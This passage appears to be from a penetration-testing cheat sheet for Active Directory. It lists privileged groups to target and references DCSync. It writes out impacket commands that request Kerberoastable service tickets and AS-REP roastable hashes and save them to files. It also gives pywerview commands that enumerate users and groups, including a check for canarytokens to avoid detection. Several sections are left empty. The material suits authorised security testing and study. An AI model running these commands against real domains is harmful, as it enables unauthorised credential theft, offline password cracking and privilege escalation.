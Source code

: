 References :
- [thehacker.recipes/ad/movement/kerberos/delegations - KUD / KCD / RBCD](https://www.thehacker.recipes/ad/movement/kerberos/delegations)
- [https://attack.mitre.org/techniques/T1134/001/](https://attack.mitre.org/techniques/T1134/001/)

#### <a name='shoot-priv-users'></a>shoot-priv-users

Privileged Users:

- [Well-known Microsoft SID List](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/81d92bba-d22b-4a8c-908a-554ab29148ab?redirectedfrom=MSDN)
- [T1003.006](https://attack.mitre.org/techniques/T1003/006) DCSYNC

```powershell
$ztarg_grp="Domain Admins"
#$ztarg_grp="Enterprise Admins"
#$ztarg_grp="Backup Operators"
#$ztarg_grp="Remote Desktop Users"
#$ztarg_grp="DNSAdmins"
```

#### <a name='shoot-priv-machines'></a>shoot-priv-machines

Privileged Machines:
```sh
tbd
```
#### <a name='shoot-shares'></a>shoot-shares
#### <a name='shoot-mssql-servers'></a>shoot-mssql-servers

#### <a name='shoot-spns'></a>shoot-spns
```
# https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
GetUserSPNs.py $zdom_fqdn/$ztarg_user_name:$ztarg_user_pass -dc-ip $zdom_dc_ip -request >> tgs.txt
```

#### <a name='shoot-npusers'></a>shoot-npusers
```
# https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py
GetNPUsers.py $zdom_fqdn/$ztarg_user_name:$ztarg_user_pass -dc-ip $zdom_dc_ip -request >> np_users.txt 
```

#### <a name='shoot-acls'></a>shoot-acls



## <a name='iter'></a>iter

### <a name='iter-memberof'></a>iter-memberof
User groups:
```bash
# Get user info
pywerview.py get-netuser -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username XXX > pt_xxx_getnetuser_x.txt

# Get user info + canarytoken check
# select cn, whenCreated, accountExpires, pwdLastSet, lastLogon, logonCount, badPasswordTime, badPwdCount
egrep -i  "^(cn|whenCreated|accountExpires|pwdLastSet|lastLogon|logonCount|badPasswordTime|badPwdCount)" pt_xxx_getnetuser_x.txt

# Get user memberof info
pywerview.py get-netgroup -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip --username XXX | grep -v "^$" | cut -f2 -d" "  > pt_xxx_getnetgroup_x.txt 

# Get the machine's full-data
```
